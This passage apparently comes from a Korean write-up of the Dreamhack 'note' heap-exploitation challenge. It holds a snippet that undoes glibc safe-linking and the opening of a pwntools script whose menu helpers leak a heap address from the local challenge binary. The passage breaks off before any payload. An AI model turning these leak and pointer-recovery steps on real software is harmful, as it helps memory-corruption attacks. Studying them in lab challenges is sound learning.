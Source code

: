 ```python

&nbsp;       plain = ((cipher ^ key) >> bits) << bits

&nbsp;       key = plain >> 12



&nbsp;   return plain

```



!\[image.png](/assets/img/dh5note/image12.png)



!\[image.png](/assets/img/dh5note/image13.png)



heap 영역 leak 성공



이때 사용한 코드



```python

from pwn import \*



\#p = remote("host8.dreamhack.games", 24028)

p = remote('localhost', 31337)

\#p = process('./note')

elf = ELF("./note")



def create(idx, size, data):

&nbsp;   p.sendline(b'1')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendlineafter(b'size: ', str(size).encode())

&nbsp;   p.sendafter(b'data: ', data)



def read\_note(idx):

&nbsp;   p.sendline(b'2')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.recvuntil(b"data: ")

&nbsp;   leak = p.recvline().strip()

&nbsp;   return leak


```